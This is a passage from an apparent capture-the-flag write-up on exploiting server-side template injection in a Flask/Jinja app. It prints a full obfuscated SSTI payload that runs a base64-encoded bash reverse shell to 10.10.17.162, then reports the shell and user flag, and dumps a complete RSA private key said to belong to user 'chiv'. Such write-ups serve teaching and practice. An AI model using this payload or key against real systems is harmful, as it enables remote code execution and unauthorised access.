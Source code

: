 #### Why we used include and % ?

get your answer [here](https://pythonprogramming.net/flask-includes-tutorial/)

--> And we got 5 seconds sleep !

--> So let's get the reverse shell using this payload .

But we need to `base64 encode` the reverse shell because it's not working directly because of special characters

So now our payload looks like this

```bash
{% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjIvNjk2OSAwPiYxCg== | base64 -d | bash
")|attr("read")()%}
```

--> we need to url encode this also

--> And i got the reverse shell and `user` flag

I also got the ssh key for chiv

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAmGvQ3kClVX7pOTDIdNTsQ5EzQl+ZLbpRwDgicM4RuWDvDqjV
gjWRBF5B75h/aXjIwUnMXA7XimrfoudDzjynegpGDZL2LHLsVnTkYwDq+o/MnkpS
U7tVc2i/LtGvrobrzNRFX8taAOQ561iH9xnR2pPGwHSF1/rHQqaikl9t85ESdrp9
MI+JsgXF4qwdo/zrgxGdcOa7zq6zlnwYlY2zPZZjHYxrrwbJiD7H2pQNiegBQgu7
BLRlsGclItrZB+p4w6pi0ak8NcoKVdeOLpQq0i58vXUCGqtp9iRA0UGv3xmHakM2
VTZrVb7Q0g5DGbEXcIW9oowFXD2ufo2WPXym0QIDAQABAoIBAH4cNqStOB6U8sKu
6ixAP3toF9FC56o+DoXL7DMJTQDkgubOKlmhmGrU0hk7Q7Awj2nddYh1f0C3THGs
hx2MccU32t5ASg5cx86AyLZhfAn0EIinVZaR2RG0CPrj40ezukWvG/c2eTFjo8hl
Z5m7czY2LqvtvRAGHfe3h6sz6fUrPAkwLTl6FCnXL1kCEUIpKaq5wKS1xDHma3Pc
XVQU8a7FwiqCiRRI+GqJMY0+uq8/iao20jF+aChGu2cAP78KAyQU4NIsKNnewIrq
54dWOw8lwOXp2ndmo3FdOfjm1SMNYtB5yvPR9enbu3wkX94fC/NS9OqLLMzZfYFy
f0EMoUECgYEAxuNi/9sNNJ6UaTlZTsn6Z8X/i4AKVFgUGw4sYzswWPC4oJTDDB62
nKr2o33or9dTVdWki1jI41hJCczx2gRqCGtu0yO3JaCNY5bCA338YymdVkphR9TL
j0UOJ1vHU06RFuD28orK+w0b+gVanQIiz/o57xZ1sVNaNOyJUlsenh8CgYEAxDCO
JjFKq+0+Byaimo8aGjFiPQFMT2fmOO1+/WokN+mmKLyVdh4W22rVV4v0hn937EPW
K1Oc0/hDtSSHSwI/PSN4C2DVyOahrDcPkArfOmBF1ozcR9OBAJME0rnWJm6uB7Lv
hm1Ll0gGJZ/oeBPIssqG1srvUNL/+sPfP3x8PQ8CgYEAqsuqwL2EYaOtH4+4OgkJ
mQRXp5yVQklBOtq5E55IrphKdNxLg6T8fR30IAKISDlJv3RwkZn1Kgcu8dOl/eu8
gu5/haIuLYnq4ZMdmZIfo6ihDPFjCSScirRqqzINwmS+BD+80hyOo3lmhRcD8cFb
0+62wbMv7s/9r2VRp//IE1ECgYAHf7efPBkXkzzgtxhWAgxEXgjcPhV1n4oMOP+2
nfz+ah7gxbyMxD+paV74NrBFB9BEpp8kDtEaxQ2Jefj15AMYyidHgA8L28zoMT6W
CeRYbd+dgMrWr/3pULVJfLLzyx05zBwdrkXKZYVeoMsY8+Ci/NzEjwMwuq/wHNaG
rbJt/wKBgQCTNzPkU50s1Ad0J3kmCtYo/iZN62poifJI5hpuWgLpWSEsD05L09yO
TTppoBhfUJqKnpa6eCPd+4iltr2JT4rwY4EKG0fjWWrMzWaK7GnW45WFtCBCJIf6
IleM+8qziZ8YcxqeKNdpcTZkl2VleDsZpkFGib0NhKaDN9ugOgpRXw==
-----END RSA PRIVATE KEY-----
```
